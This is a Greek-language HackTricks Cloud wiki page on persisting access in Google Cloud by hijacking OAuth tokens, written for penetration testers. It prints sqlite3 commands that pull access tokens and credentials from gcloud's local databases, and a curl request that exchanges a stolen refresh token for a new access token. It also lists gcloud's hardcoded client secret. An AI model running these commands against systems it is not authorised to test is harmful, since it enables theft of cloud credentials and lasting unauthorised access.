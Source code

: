 # GCP - Μη-υπηρεσιακή Διατήρηση

<details>

<summary><strong>Μάθετε το χάκινγκ στο AWS από το μηδέν μέχρι τον ήρωα με το</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (Ειδικός Ερυθρού Συνεργείου HackTricks AWS)</strong></a><strong>!</strong></summary>

Άλλοι τρόποι υποστήριξης των HackTricks:

* Αν θέλετε να δείτε την **εταιρεία σας να διαφημίζεται στα HackTricks** ή να **κατεβάσετε το HackTricks σε μορφή PDF** ελέγξτε τα [**ΣΧΕΔΙΑ ΣΥΝΔΡΟΜΗΣ**](https://github.com/sponsors/carlospolop)!
* Αποκτήστε το [**επίσημο PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Ανακαλύψτε [**Την Οικογένεια PEASS**](https://opensea.io/collection/the-peass-family), τη συλλογή μας από αποκλειστικά [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Εγγραφείτε στη** 💬 [**ομάδα Discord**](https://discord.gg/hRep4RUj7f) ή στη [**ομάδα τηλεγραφήματος**](https://t.me/peass) ή **ακολουθήστε** μας στο **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Μοιραστείτε τα χάκινγκ κόλπα σας υποβάλλοντας PRs στα** [**HackTricks**](https://github.com/carlospolop/hacktricks) και [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) αποθετήρια του GitHub.

</details>

Αυτές είναι χρήσιμες τεχνικές όταν, με κάποιον τρόπο, έχετε διαρρεύσει κάποια διαπιστευτήρια GCP ή μηχανή που τρέχει σε περιβάλλον GCP.

## Απαγωγή Διακριτικού

### Διακριτικά Χρήστη που Έχουν Ταυτοποιηθεί

Για να λάβετε το **τρέχον διακριτικό** ενός χρήστη μπορείτε να εκτελέσετε: 

{% code overflow="wrap" %}
```bash
sqlite3 $HOME/.config/gcloud/access_tokens.db "select access_token from access_tokens where account_id='<email>';"
```
{% endcode %}

Ελέγξτε σε αυτήν τη σελίδα πως να **χρησιμοποιήσετε απευθείας αυτό το τοκεν χρησιμοποιώντας το gcloud**:

{% embed url="https://book.hacktricks.xyz/pentesting-web/ssrf-server-side-request-forgery/cloud-ssrf#id-6440-1" %}

Για να λάβετε τις λεπτομέρειες για τη **δημιουργία ενός νέου τοκεν πρόσβασης** εκτελέστε: 

{% code overflow="wrap" %}
```bash
sqlite3 $HOME/.config/gcloud/credentials.db "select value from credentials where account_id='<email>';"
```
{% endcode %}

Είναι επίσης δυνατόν να βρείτε τα refresh tokens στο **`$HOME/.config/gcloud/application_default_credentials.json`** και στο **`$HOME/.config/gcloud/legacy_credentials/*/adc.json`**.

Για να λάβετε ένα νέο ανανεωμένο access token με το **refresh token**, τον αριθμό ταυτότητας πελάτη (client ID) και το μυστικό του πελάτη (client secret), εκτελέστε:
```bash
curl -s --data client_id=<client_id> --data client_secret=<client_secret> --data grant_type=refresh_token --data refresh_token=<refresh_token> --data scope="https://www.googleapis.com/auth/cloud-platform https://www.googleapis.com/auth/accounts.reauth" https://www.googleapis.com/oauth2/v4/token
```
{% endcode %}

Η ισχύτητα των διακριτικών ανανέωσης μπορεί να διαχειριστεί στο **Admin** > **Security** > **Google Cloud session control**, και από προεπιλογή έχει οριστεί σε 16 ώρες, αν και μπορεί να οριστεί ώστε να μην λήξει ποτέ:

<figure><img src="../../../.gitbook/assets/image (2) (1).png" alt=""><figcaption></figcaption></figure>

### Ροή Εξουσιοδότησης

Η ροή εξουσιοδότησης όταν χρησιμοποιείτε κάτι σαν το `gcloud auth login` θα ανοίξει ένα παράθυρο στον περιηγητή και μετά την αποδοχή όλων των εμβέλειών, ο περιηγητής θα στείλει ένα αίτημα όπως αυτό στη θύρα http που είναι ανοικτή από το εργαλείο:
```
/?state=EN5AK1GxwrEKgKog9ANBm0qDwWByYO&code=4/0AeaYSHCllDzZCAt2IlNWjMHqr4XKOuNuhOL-TM541gv-F6WOUsbwXiUgMYvo4Fg0NGzV9A&scope=email%20openid%20https://www.googleapis.com/auth/userinfo.email%20https://www.googleapis.com/auth/cloud-platform%20https://www.googleapis.com/auth/appengine.admin%20https://www.googleapis.com/auth/sqlservice.login%20https://www.googleapis.com/auth/compute%20https://www.googleapis.com/auth/accounts.reauth&authuser=0&prompt=consent HTTP/1.1
```
Στη συνέχεια, το gcloud θα χρησιμοποιήσει την κατάσταση και τον κώδικα με ορισμένα hardcoded `client_id` (`32555940559.apps.googleusercontent.com`) και **`client_secret`** (`ZmssLNjJy2998hD4CTg2ejr2`) για να λάβει τα **δεδομένα τελικού refresh token**.

{% hint style="danger" %}
Σημειώστε ότι η επικοινωνία με το localhost γίνεται μέσω HTTP, οπότε είναι δυνατόν να παρακολουθηθούν τα δεδομένα για να ληφθεί ένα refresh token, ωστόσο αυτά τα δεδομένα είναι έγκυρα μόνο μία φορά, οπότε αυτό θα ήταν άχρηστο, είναι πιο εύκολο απλά να διαβάσετε το refresh token από το αρχείο.
{% endhint %}

### Εμβέλειες OAuth

Λάβετε όλες τις εμβέλειες OAuth εκτελώντας:

{% code overflow="wrap" %}
```bash
curl "https://developers.google.com/identity/protocols/oauth2/scopes" | grep -oE 'https://www.googleapis.com/auth/[a-zA-A/\-\._]*' | sort -u
```
{% endcode %}

### Λογαριασμοί Υπηρεσιών

Όπως και με τους εξουσιοδοτημένους χρήστες, αν καταφέρετε να **διαρρήξετε το αρχείο του ιδιωτικού κλειδιού** ενός λογαριασμού υπηρεσίας, θα μπορείτε να **έχετε πρόσβαση σε αυτό συνήθως όσο θέλετε**.\
Ωστόσο, αν κλέψετε το **token OAuth** ενός λογαριασμού υπηρεσίας, αυτό μπορεί να είναι ακόμη πιο ενδιαφέρον, επειδή, ακόμη και αν από προεπιλογή αυτά τα tokens είναι χρήσιμα μόνο για μία ώρα, αν ο **θύμα διαγράψει το ιδιωτικό κλειδί api, το token OAuth θα παραμείνει έγκυρο μέχρι να λήξει**.

### Μεταδεδομένα

Φυσικά, όσο βρίσκεστε μέσα σε μια μηχανή που τρέχει στο περιβάλλον GCP θα μπορείτε να **έχετε πρόσβαση στον λογαριασμό υπηρεσίας που είναι συνδεδεμένος με αυτή τη μηχανή επικοινωνώντας με το σημείο των μεταδεδομένων** (σημειώστε ότι τα tokens OAuth στο σημείο αυτό των μεταδεδομένων συνήθως περιορίζονται από τις εμβέλειες).

### Διορθώσεις

Ορισμένες διορθώσεις για αυτές τις τεχνικές εξηγούνται στο [https://www.netskope.com/blog/gcp-oauth-token-hijacking-in-google-cloud-part-2](https://www.netskope.com/blog/gcp-oauth-token-hijacking-in-google-cloud-part-2)

## Αναφορές

* [https://www.netskope.com/blog/gcp-oauth-token-hijacking-in-google-cloud-part-1](https://www.netskope.com/blog/gcp-oauth-token-hijacking-in-google-cloud-part-1)
* [https://www.netskope.com/blog/gcp-oauth-token-hijacking-in-google-cloud-part-2](https://www.netskope.com/blog/gcp-oauth-token-hijacking-in-google-cloud-part-2)

<details>

<summary><strong>Μάθετε το χάκινγκ στο AWS από το μηδέν μέχρι τον ήρωα με το</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Άλλοι τρόποι υποστήριξης του HackTricks:

* Αν θέλετε να δείτε την **εταιρεία σας διαφημισμένη στο HackTricks** ή να **κατεβάσετε το HackTricks σε μορφή PDF** ελέγξτε τα [**ΣΧΕΔΙΑ ΣΥΝΔΡΟΜΗΣ**](https://github.com/sponsors/carlospolop)!
* Αποκτήστε το [**επίσημο PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Ανακαλύψτε [**την Οικογένεια PEASS**](https://opensea.io/collection/the-peass-family), τη συλλογή μας από αποκλειστικά [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Εγγραφείτε στη** 💬 [**ομάδα Discord**](https://discord.gg/hRep4RUj7f) ή στη [**ομάδα τηλεγραφήματος**](https://t.me/peass) ή **ακολουθήστε** μας στο **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Μοιραστείτε τα χάκινγκ κόλπα σας υποβάλλοντας PRs στα** [**HackTricks**](https://github.com/carlospolop/hacktricks) και [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) αποθετήρια του github.

</details>
